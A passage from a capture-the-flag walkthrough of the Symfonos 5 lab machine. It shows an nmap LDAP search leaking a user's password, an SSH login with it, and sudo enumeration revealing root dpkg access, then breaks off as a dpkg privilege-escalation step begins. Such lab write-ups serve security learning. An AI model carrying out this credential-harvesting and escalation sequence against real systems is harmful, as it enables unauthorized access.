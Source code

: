 \| gidNumber: 14564100

\| userPassword: cetkKf4wCuHC9FET

\| mail: zeus\@symfonos.local

\|\_ gecos: Zeus User

MAC Address: 00:0C:29:F8:30:27 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 13.62 seconds

nmap ldap-search scrip helps us discover another username and password.

#### SSH

let's try to use this to log in with SSH.

lifesfun:/var/www/html\# ssh zeus\@192.168.211.150

zeus\@192.168.211.150's password:

Linux symfonos5 4.19.0-6-amd64 \#1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11)
x86_64

The programs included with the Debian GNU/Linux system are free software;

the exact distribution terms for each program are described in the

individual files in /usr/share/doc/\*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent

permitted by applicable law.

Privilege Escalation
--------------------

#### Enumeration

zeus\@symfonos5:\~\$ sudo -l

Matching Defaults entries for zeus on symfonos5:

env_reset, mail_badpass,

secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin

User zeus may run the following commands on symfonos5:

(root) NOPASSWD: /usr/bin/dpkg

Looks like we can run dpkg as root.

#### Escalation

Privilege escalation method using /usr/bin/dpkg was found here
<https://lsdsecurity.com/2019/01/linux-privilege-escalation-using-apt-get-apt-dpkg-to-abuse-sudo-nopasswd-misconfiguration/>

At first, an attempt was made to compile a c package into a def file as shown
below.
